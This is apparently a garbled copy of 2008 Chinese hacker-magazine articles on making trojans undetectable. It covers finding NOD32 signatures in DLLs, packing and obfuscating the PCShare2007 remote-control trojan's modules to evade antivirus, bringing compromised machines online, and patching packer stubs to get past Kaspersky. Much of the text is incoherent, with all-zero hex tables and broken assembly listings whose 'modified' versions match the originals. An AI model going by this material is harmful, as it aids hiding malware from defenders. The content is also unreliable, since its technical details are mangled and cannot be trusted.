免NOD3的免更过NOD3的DLL文件就对了。有些能说明事情，随便一下——涉及NOD3的很少，而大部分都是对NOD3后的，而且我用VA写出来，这些方法也是今天过的。为了方便初学者，文件用小内存，调试时用文本明的十六进制是`0x01A`，`01A`后的几位是特征，比如，这里`ae8`为特征，`ae8`后的个字符为特征。已经纠结了很久，明明只有处特征码，什么还会招毒呢？很简单，因为它还有特征码。现在只有特征码了，一个PE头被锁定了，这样就不会让特征码在范围之内，详细描述，其定位特征码在偏移100处后再定位，就可以得到`ae8_3de0`，这里就是输出表了。

| 偏移 | 长度 | 特征码 | 备注 |
| :--- | :--- | :--- | :--- |
| 00000000 | 08 | 00000000 | - |
| 00000008 | 08 | 00000000 | - |
| 00000010 | 08 | 00000000 | - |
| 00000018 | 08 | 00000000 | - |


```
| 00000020 | 08 | 00000000 | - |
| 00000028 | 08 | 00000000 | - |
| 00000030 | 08 | 00000000 | - |
| 00000038 | 08 | 00000000 | - |
| 00000040 | 08 | 00000000 | - |
| 00000048 | 08 | 00000000 | - |
| 00000050 | 08 | 00000000 | - |
| 00000058 | 08 | 00000000 | - |
| 00000060 | 08 | 00000000 | - |
| 00000068 | 08 | 00000000 | - |
| 00000070 | 08 | 00000000 | - |
| 00000078 | 08 | 00000000 | - |
| 00000080 | 08 | 00000000 | - |
| 00000088 | 08 | 00000000 | - |
| 00000090 | 08 | 00000000 | - |
| 00000098 | 08 | 00000000 | - |
| 000000A0 | 08 | 00000000 | - |
| 000000A8 | 08 | 00000000 | - |
| 000000B0 | 08 | 00000000 | - |
| 000000B8 | 08 | 00000000 | - |
| 000000C0 | 08 | 00000000 | - |
| 000000C8 | 08 | 00000000 | - |
| 000000D0 | 08 | 00000000 | - |
| 000000D8 | 08 | 00000000 | - |
| 000000E0 | 08 | 00000000 | - |
| 000000E8 | 08 | 00000000 | - |
| 000000F0 | 08 | 00000000 | - |
| 000000F8 | 08 | 00000000 | - |
```


| 属性 | 数值 | 输出输出序号 | 导出数量 | 导出名称表 | 导出函数 | 导出函数RVA | 导出函数Size | 导出函数RVA |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 00000000 | 00 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000008 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000010 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000018 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000020 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000028 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000030 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000038 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000040 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000048 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000050 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000058 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000060 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000068 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000070 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000078 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000080 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000088 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000090 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000098 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000A0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000A8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000B0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000B8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000C0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000C8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000D0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000D8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000E0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000E8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000F0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000F8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |

图5

其实我还有其他方法修改而不影响功能，比如数据名不变，通过修改数据名地址和排名，原来的关系还是如下：以往以加载中的一个文件为例（例：在资源管理器），一个头比较小，容易的，我们然后再修改输入项，在输入项的讨论中，比如相同的项，找到`Po`项的位置是`ae00`，头部是`ae80`为值`=150`，是`ae150`；执行链后跳转就是`ae30`，选择输入项后，由`ORDER`如`ae3C`为，输入和输出会有一些的位置。

| 属性 | 数值 | 输出输出序号 | 导出数量 | 导出名称表 | 导出函数 | 导出函数RVA | 导出函数Size | 导出函数RVA |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 00000000 | 00 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000008 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000010 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000018 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000020 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000028 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000030 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000038 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000040 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000048 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000050 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000058 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000060 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000068 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000070 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000078 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000080 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000088 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000090 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 00000098 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000A0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000A8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000B0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000B8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000C0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000C8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000D0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000D8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000E0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000E8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000F0 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |
| 000000F8 | 08 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 | 00000000 |


Thunk of faby，通常用到下面两段：

`00000000/00000050=DateTimeStamp32`时间的和。

`ForwardChain`链输入列表的32位数字，符号有作用，但我遇到的地方都没用，最后的是`00002132=00000001`是`First Think`指向

`DL`的第一个函数地址，32-48位为全部输入列表的，再往下就是列表数据和`DL`名，`n`不属于输入列表的输出，和输出类似，是再次连接。

这里一个地方需要注意，第一个`DL`的函数地址为`1284`，偏移量48，正确的数据函数`GetCurrentProcess`的地址在前了7个字母是作为名称标识符的。


定位的标识符是45处的`url`，按照按照的流的操作，可以修改标识符，将DL名移动到DL的空区域，我们将把45处的1256改为420处，然后用`dlrm`移动到DL处将原来的字符串替换。再用DL即可可以更方便，但是我们遇到了问题。如图所示：

```
00000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000030: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000080: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000090: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
```

这个修改后还是没有问题的，它可能正常工作，但是被杀了！这可以证明流量的第一种方法是杀毒的，不过重新定位标识符变成了`7b`处，修正后的是`dlrm`的移动，还是会被杀掉。我想，我可以理解为什么NOD32是不可能的，另外上传的流量再杀毒是不认为的。

```
00000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000030: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000060: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000070: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000080: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
00000090: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
000000f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ...
```

## 输入输出表

至于上面流量的第三种方法，加再杀毒。这种方法是认为是可以的，不需要DL流量再杀毒，因为杀毒的NOD32就不会被杀了，只要不需要方法了，这也是一种方法，也就是很难绕过。

杀毒软件，由于这种杀毒软件是由于杀毒文件也是可以的，所以以后杀毒就不可能运行的了，由于DL流量不需要被处理，杀毒现在的方法还可以正常的被杀掉？

现在的NOD32杀毒机制是不可能的，这可以是可能的，我可以理解为什么这种病毒类型是预见的，比如之前的NOD32是可以杀毒这种新的病毒的，它最大的漏洞就是IAT。


## HACKER TOOLS ATTACK&DEFENSE

适合读者：程序员、爱好者

前置知识：无

## 导出文件

| 区域 | RVA | 偏移 | 大小 |
| :--- | :--- | :--- | :--- |
| UPX1 | 0009F301004B501 | 000000EF | |
| .rsc | 0000A5E2 | 00002542 | 00001AE |


## DLL 免杀

首先利用工具对`MAINLL.dll`进行处理，运行UPX Shell，点击“打开”然后选择`MAINLL`，程序会自动跳转到“压缩”标签，点击“开始”就可以进行压缩了。用`PEid`打开附加`MAINLL`，这里有些数据我们要记录，之后用技术需要注意，分别记录下偏移`0009EF33`，文件偏移`0048330`，如图所示，导出后的后缀，在弹出的窗口中查看UPX区域的`UPX1`，点击右侧的“记忆”，记录到`UPX1`的`RVA:0009F01`偏移。


## 查找入口


## 小结

通过宏进行还原是非常简单的，而且对于大多数杀毒软件都是可以的，但是为了让你的程序良好的不被检测，最好通过多种手段进行还原。外，我发现通过宏一次没有成功的话，可以再进行一次操作，这样就可以轻松绕过杀毒软件。

## EXE生成

`MAINLL.DLL`生成后，运行`ResourceEditor`。


## HACKER TOOLS ATTACK& DEFENSE

实现现在线上的首要是你有肉肉，没？找个人可以吗？我们来重置一下下4.4版，执行的时候千万不要选ZIP压缩包。因为我们要自己加，也可以用木马标识，这样可以使用蓝牙的密码配置，后再修改一下命令行窗口，我是10000。

打开字典密码首选，点击工具 -> 选项，这里就会弹出密码窗口的窗口和自动登录窗口，这里不多了，但是注意不要勾选“自动登录账号”的选项，10000，执行后会有那个形状，之后执行一行命令，稍等下，可以的小小子上线了，我们再重试下，


用隧道扫描一下，星雨很慢了，测试一下后，成功了！如图4所示。


不过只是结束了，我们要做的的是大多数杀毒，再用`MapEx`在壳里开始的服务的服务，便再取一项，首先生成最后`1.exe`，点击登录，进入选择成功后我们再加它，打开窗口多加几条执行指令后再取一项就可以，接下来就是最后一步了，用ASPECT 2.3.Beta，要注意的是要选“中”的模式隧道扫描一下，没有反应，我们再用github全网扫描一下。

## 上线的简单结束了

我们还是用对应的工具的，用MySQL注入数据，分几十个100个后，用隧道扫描一下，然后后再点击一次，稍等下发现MySQL已经成功了，我们没太多了，最后得到的特征是`0009D8A`，在本地注入数据，然后选择十二进制模式，刻到特征码，这里的大小写转换就可以了，最后点“保存”。如图3所示

特征码长度为：

`0009D8A`

特征码显示信息：


| Name | Version | Update Date |
|---|---|---|
| Antivirus | 7.3.14 | 2017-01-04 |
| Windows Defender | 10.0 | 2017-01-04 |
| Avast | 4.7.29 | 2017-01-04 |
| Emssoft | 9.5 | 2017-01-04 |
| McAfee | 12.10 | 2017-01-04 |
| Cat-Outline | - | 2017-01-04 |
| Symantec | 0.00073312 | 2017-01-04 |
| Trendbytes | 14.0 | 2017-01-04 |
| Kaspersky | 17.3557 | 2017-01-04 |
| Bitdefender | 10.0 | 2017-01-04 |
| GData | 28.5 | 2017-01-04 |
| FireEye | 3.0 | 2017-01-04 |
| F-Secure | 8.70.1330 | 2017-01-04 |
| ViX | 1.0 | 2017-01-04 |
| Malwarebytes | 4.12 | 2017-01-04 |
| Sophos | 5004 | 2017-01-04 |
| NOD32 | 21.7 | 2017-01-04 |

特征有四个了，我们再重试下上线，稍等下，发现肉小子就上线了，如图6所示


好了，上线的内网上线和简单杀杀就结束了。

本文还没有技术含量，希望大家对它有帮助，高手不要不要见我~


## 猴哥2007全新发布

猴哥是中国唯一用幽默作家比肩鲁、黑河、黄诞，猴哥可以说是国内网络写作的集合者，成后，一人多名作家。如今的猴哥已经成为众矢大师，而猴哥鸽小组已经宣布停止猴哥的活跃，然而猴哥的VIP会员可以通过账号配置服务器，现在是服务器的版本是被存档的第三份备份，因此，建议务必存档到自己本地。

文 / 跳并快乐

## 服务器连接

在完善连接之前，我们将对V2007版本的程序进行处理，因为V2007和以前的2006版本之处在于模块的记录已经集成到了软件中。由于猴哥版本的某些组件已经减少了，运行程序需要修改插件2007，用猴子的工具栏点击按钮，在弹出的窗口中选择“`RC`命令”，然后点击右侧选择“导出”为“猴子的命令”，在弹出的窗口中将部分保存为“`MAIND.dll`”，如图所示。


我们首先通过压缩对文件进行处理，我选择新建压缩，在“设置”标签页中选择压缩和“退出并保存”。(`152_1.png`)


## HACKER TOOLS ATTACK& DEFENSE

在使用`OllyDebugger`侧边栏，找到程序的起始地址，我找到`07CB10`地址，然后点击右侧的“寄存器”，在输入框中编写要替换的字节，最后在执行行加上一行“`nop 0x90`”，使得程序能够找回原来的字节，从而修改程序的逻辑。我们将修改文件的属性，文件写入文件程序的界面重新放置，连接在“指令”下拉菜单中选择一种指令，然后点击“加”按钮即可，如图所示。该具有好处就是方便用户添加自己的指令，这样就不需要再到程序内部进行指令添加了。为了更好地保护程序，我们还可以再次进行“处理”。保存右侧的寄存器，点击“文件”->“保存”->“保存”，在弹出的对话框中保存文件，修改后的程序即可。由于执行了修改，还需要使用PE编辑器对入口进行修改，点击编辑器->选择修改后的文件，PE会自动读取服务的属性，我们将程序的入口改为`7CB10`地址后，点击“确定”对要修改的设置，如图所示。


## PE运行程序

通过Armor，通过中选择中的选项进行处理，再次切换到“2”标签，选择中的字符，将自身修改为，然后从标签中选择一个字符，最后到处理后点击“保护”，这次处理的服务程序即可绕过杀毒软件。


## 免杀病毒

使用Resource启动的`MAIN`函数，在资源中通过点击“`RCData`”找到输入加载免壳的文件的内容，最后对修改后的服务程序进行“运行”。为了让杀毒软件对这个文件进行检测，发现服务程序并不是是被杀的，又要通过添加指令来运行，这是该行病毒的“超级加壳器1.6”，这是该指令加载新的功能，然后服务程序直接检测到。

## 绕过主防御

通过上面的免杀处理以后，已经通过某些方法可以绕过特征码拦截，但是很难成功过的主壳防御。由于主壳自身已经没有漏洞，通过调整程序的参数可以绕过主防御，现在通过这个文件写入文件可以还可以，但是在程序内设置字符串一步步让操作变得简单了。


运行该应用程序，选择要修改的主壳病毒，选择连接“TC 0.9”的防御设置，点击“显示主防御入口”，点击“确定”即可，如图所示，最后选出来的服务程序，即可成功绕过主防御入口了。


www.hacker.com.cn 《黑客王朝》2008年版权所有

## HACKER TOOLS ATTACK& DEFENCE

适合读者：木马爱好者

前置知识：无

## PCShare2007 新版

最近木马推出了全新的PCShare2007，对程序进行了旧版本的改写，由于木马的壳机制是单模块多程序模式，这种模式可以确保在控制器运行时不会影响木马的自动启动后服务程序，`main.exe`的壳是Windows系统，此外用户根据需要选择加载模块内，虽然木马启动避免了杀毒软件扫描，今天来说PCShare2007的破解过程。

## 病毒特征

新版本的PCShare2007采用了技术，使得执行后服务程序变得很小，文件大小在256字节左右，新版本已经清理了特定形式，控制器的特征也小了，这就非常方便进行破解。新版本的PCShare加密后的文件有三个，其中一个是服务程序所需的文件，都是`sys.exe`、`shell.exe`、`main.dll`等。对于我们要对杀毒信息连接，也可以使用其中的文件进行破解，`shell.exe`生成服务程序所需的，`main.exe`生成服务程序所需的，`main.dll`是木马自动启动后程序的破解需要两步：首先对这些模块的文件进行修改，然后对木马生成的的文件。

## 破解.exe文件

1.`shell.exe`文件的执行起来很容易的。这里我们要先用加密文件来进行破解，运行最新的一款。


加固工具“仿壳器”，对于这些全新的指令还没有被杀毒软件处理。点击“浏览”文件对话框选择`shell.exe`，接着在“指令”列表中选择一个加密文件，最后点击“加固”就可以完成文件的加密的操作，如图所示。(`154_1.png`)

我们将用来生成加密的文件，最近这里有很多新的加密文件，这里我们可以选择其中“XXX生成”运行程序后点击，“选择指令”来处理加密后的文件。另外，点击“文件对话框”就可以创建一个这不是我们不需要做的操作，直接点击“压缩”按钮即可。接下来再用`VMProtect`对程序的入口进行操作。运行`VMProtect`在“`FileName`”字段中选择文件的路径，点击一下找到“`EntryPoint`”添加到“Procedures for protection”列表中，最后我们只要一步点击一下就可以完成文件的加密如如图所示。到此为止，关于文件的加密操作介绍到这里。


www.hacker.com.cn 2008年版权所有 特制作：butterfly@hacker.com.cn

## HACKER TOOLS ATTACK& DEFENSE (目录标题)


### 添加自己编写的花代码

运行常见的加密程序`MaskPE`；或点击“Load File”选择要修改的文件，通过“Select Information”列表选择“Base Relocation Table”这一项，点击“Mark File”对被修改的文件另存为，如图所示。


然后是通过壳程序`Hiding`的`PE-Armor`进行处理，首先在“处理”处选择需要的文件信息，再切换到“设置”一层并选择“特殊加密”选项；再切换到“设置”二将“转换为”为选项并选择一个项目，如图所示，最后运行到“处理”处，点击“保护”即可，这个整个DLL文件就成功了。


### 2) `Main.dll`文件生成

对于DLL文件的生成和EXE文件的处理操作，首先使用先加花的方式进行处理。在这里我们选择一种外花工具来创建加密精灵1.6版来进行处理，需要的DLL文件直接输出到程序的进程中。在“花指令”下在列表中选择某种花指令，直接点击的“可加”即可完成整个过程，如图所示，也可以对程序的自定义花指令进行添加输出，直接处理程序


### 3) `Hide.sys`文件生成

SYS文件的生成是一直比较困难的，因为EXE文件的处理方法本质不同，所以大多针对SYS文件进行操作，可以通过特征修改，但是毕竟比较困难，首先使用自制工具32来处理所有动态函数导入然后就可以对自己的文件修改了。从7我们可以清楚地看到文件的头部为`MZ`，利用标识符找到文件的所有信息，点击右侧命令创建，然后从文件的第二个字母下方找到长字符串，最后点击标识符中的命令修改我们将相当于整个头部向移动一位；不过非常常见的情况，像壳了DLL文件后还需要对程序进行检查。同样使用`MaskPE`进行加密，在“Select Information”列表选择“Import Table”后，再次运行程序Armor的`PE-Armor`进行处理，用设置点击“压缩”按钮，完成后使用`ASpack`再次打包该程序现在内存中非常正常运行，点击打开程序判断文件是否包含相关的函数，如果是的话我们就使用脱壳即可，如所示，目的是对程序重载，帮助用PE编辑器修改程序，点击编辑器自动读取服务的信息，然后点击“输入信息”完成后。


在文件中第一个字母，点击右侧的“命令”，在弹出的窗口中使用“修改”选项，在窗口中输入“58”点击“确定”即可，如图所示，点击后点击“保存”命令修改文件，现在我们再进行处理，由于系统运行在内核空间，大多数程序是没用的，所以`ASpack`再次可能的。


运行`ASpack`后点击“打开”选择SYS文件，开始对文件进行解壳就可以了。这样通过加载模块免壳的文件完成了。

三个模块中分别免壳完成后，运行的客户端模块，点击会生成一个服务器程序，加载相同的模块已经免壳了，但是有了杀毒软件还会检测的。壳相对于其他的模块来说是非常重要的，很多时候它的驱动模块又是免壳中的难点，由于壳本身就是需要的文件内容，如果在免壳过程中某个模块有问题，那么就会影响程序的正常以及运行，因此需要处理免壳过程中要顺序进行，在免壳其中一个模块后就要立即测试，不要等三个模块完成后再测试，如果这里出现错误就不会是哪个模块的问题。

## 木马免壳

## 修改数壳壳

## 过卡斯基

适合者：本马爱好者

前置知识：

本文通过简单修改壳的头部达到卡巴的要求，使用的工具有`ODSPACK3.8`、`NSPACK1.1`、`UPX2.0`、`ASPACK2.12`、`FSG20`，修改为前面的黑壳，以下是修改的方法，有些是修改壳，有些方法经过测试，程序都可以运行，若修改后不能运行，那么修改没有意义的。

文 / 张宴

### 修改`NSPACK3.8`

用数据被加过`NSPACK`黑壳的复制，复制前十行，如下：

```
004CF300 5800000 call __sub2(004CF307)
004CF30D 50 pop edx
004CF30E B3C5F9FF sub ebp,3h
004CF308 8D0EEFFFF lea eax,dword ptr [esp]
004CF311 81C8FFFF mov dword ptr [esp],eax
004CF314 28A700FF lea edi,[004CF3A4]
004CF31A C700010000 mov dword ptr [edi],eax
004CF320 8D05FFFF mov dword ptr edx
004CF32B 29B5A0FFFF sub edx,dword ptr
004CF328 99A0FFFF mov dword ptr [esp]
004CF329 11D5FFFF add-dword ptr,edx
sub ebp,[esp-130h]
004CF334 8D05FFFF lea esi,dword ptr [esp]
004CF33A 1111 add add-dword ptr,edx
```

修改后的代码如下（部分代码）：

```
004CF300 58000000 call __sub2(004CF307)
004CF30D 50 pop edx
004CF30E B3C5F9FF sub ebp,3h
004CF308 8D0EEFFFF lea eax,dword ptr [esp]
004CF311 81C8FFFF mov dword ptr [esp],eax
004CF314 28A700FF lea edi,[004CF3A4]
004CF31A C700010000 mov dword ptr [edi],eax
004CF320 8D05FFFF mov dword ptr edx
004CF32B 29B5A0FFFF sub edx,dword ptr
004CF328 99A0FFFF mov dword ptr [esp]
004CF329 11D5FFFF add-dword ptr,edx
```


```
000015E B6 80 mov dh, dh
0000160 F7 83 call dtr [ecdi]
0000163 77 09 ja short 02:0000015D
0000166 33 xor eax, ecx
0000169 F7 83 call dtr [ebx]
000016C 77 16 - ja short 02:0000015
000016F 33 xor eax, ecx
```

`OD`复制代码。修改前的代码如下：

```
0000240 60 push eax
0000241 8B 00 74 00 mov esi,mov:(2)00475000
0000246 8D 80 0F 88 lea,dtr [ebx]
di+eff0000
000024C C7 00 78 A0 85:mov dword ptr, [ebx]
di+eff0000
0000256 57 push edi
0000257 83 CD ff or ebp,ffff:(2)0047526A
000025A 77 0e ja short ,2:0000256A
000025C 72 0a jb short ,2:0000256A
000025D 90 nop
000025E 90 nop
000025F 90 nop
0000260 80 a6 mov,byte,ptr [ecdi]
ep+4220
```

这里是两个`JNB`转换成了`JB`，这种方法是没有漏洞的，因为`JNB`和`JNB`不是相等的，转这也是一种技巧，你可以把代码改掉，不再重它，正常运行即可。

### AS的技巧

用相同代码，复制跳转前的第一条反汇跳转，这里，在地址处将跳转改为向上跳转，执行的命令如下：

```
0004CC00 90 nop
0004CC01 a: 90 push eax
0004CC02 E: 00 00 00 00 call,mov:0004CC00
0004CC07 - 79 09 ja short 05:0004C5A7
0004CC0D 55 push edi
0004CC0E: 00 00 00 00 call,mov:0004CC00
0004CC13 73 09 jb short 07:0004CC07
0004CC1B ED: FF sub,mov:ebx,-163
0004CC1F 70 83 add eax,add_eff:ebx, FFF3000
0004CC2C 83 4B 1C sub dword ptr,[ebx+00001C]
0004CC23: 8B 22 00 00 00 mov dword ptr,ecdi
epp+4220
```

修改后，跳转到第一地址是：

```
0004CC00 60 push eax
0004CC01 a: 90 push eax
0004CC02 E: 00 00 00 00 call,mov:0004CC00
0004CC07 - 79 09 ja short 05:0004C5A7
0004CC0D 55 push edi
0004CC0E: 00 00 00 00 call,mov:0004CC00
0004CC13 73 09 jb short 07:0004CC07
0004CC1B ED: FF sub,mov:ebx,-163
0004CC1F 70 83 add eax,add_eff:ebx, FFF3000
0004CC2C 83 4B 1C sub dword ptr,[ebx+00001C]
0004CC23: 8B 22 00 00 00 mov dword ptr,ecdi
epp+4220
```

第一个，我把`CALL`和`POP`替换了底层结构，其中用`JMP 45:C5A7`是一样的，只不过是用了这种技巧，把`JMP`替换了`CALL`，原本的`ADD`改成了`JB`，这部分前面已经说过了。`ebx.0x00000`改成了 `add eax,add_eff:FFF3000`，"`FFF3000`"是"`000000`"的的形式。

`UPX`可以是免费的经典的压缩工具。我们使用：

### `UPX`的技巧

修改前的代码如下：

```
0000240 60 push eax
0000241 8B 00 74 00 mov esi,mov:(2)00475000
0000246 8D 80 0F 88 lea,dtr [ebx]
di+eff0000
000024C C7 00 78 A0 85:mov dword ptr, [ebx]
di+eff0000
0000256 57 push edi
0000257 83 CD ff or ebp,ffff:(2)0047526A
000025A 77 0e ja short ,2:0000256A
000025C 72 0a jb short ,2:0000256A
000025D 90 nop
000025E 90 nop
000025F 90 nop
0000260 80 a6 mov,byte,ptr [ecdi]
ep+4220
```

这里是两个`JNB`转换成了`JB`，这种方法是没有漏洞的，因为`JNB`和`JNB`不是相等的，转这也是一种技巧，你可以把代码改掉，不再重它，正常运行即可。

### `NSPACK_1`的技巧

我看到，这个和36版本是一样的，所以改成这样。下一个版本是一样的，一个指令就不会出现那种错误了。用`OD`数据，技巧如下：

```
0004FC60 60 push eax
0004FC61 60 push edi
0004FC62 68 07 64 00 00 call,(4)
0004FC67 50 push edi
```

修改后：

```
0004FC60 60 push eax
0004FC61 60 push edi
0004FC62 68 07 64 00 00 call,(4)
0004FC67 50 push edi
```

这个改进就是，其中`CALL`和`PUSH`替换了，有些结构，在调试时候`CALL`和`PUSH`有`JMP`是可以替换的。以上是5种技巧，都是通过改动的简单使得卡巴变形绪起来，这也是为了主动防御。通过技巧达到了卡巴病毒的检测。

## HACKER TASKS&DEFENCE

